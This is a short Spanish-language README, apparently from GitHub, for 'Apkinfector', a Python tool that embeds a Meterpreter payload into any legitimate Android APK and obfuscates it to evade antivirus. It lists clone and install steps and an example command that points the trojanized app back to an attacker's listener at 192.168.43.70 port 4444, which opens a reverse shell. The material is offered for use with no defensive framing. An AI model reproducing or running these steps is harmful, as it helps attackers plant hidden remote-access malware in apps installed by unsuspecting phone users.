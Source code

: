 # Apkinfector-
Herramienta avanzada de evasión antivirus para Android escrita en Python 3 que puede incrustar/vincular el APK de meterpreter a cualquier APK legítimo y puede ofuscar completamente la carga útil de meterpreter con diferentes técnicas.

cd /opt/

git clone https://github.com/PushpenderIndia/apkinfector.git

cd apkinfector

apt-get update && apt-get install apktool && apt-get install zipalign && apt-get install apksigner
 
python3 infector.py --help

                        Ejemplos 
python3 infector.py --lhost 192.168.43.70 --lport 4444 --apk-name NEW_APK_NAME --normal-apk /root/Desktop/Path/TO/Legitemate_APK_File.apk
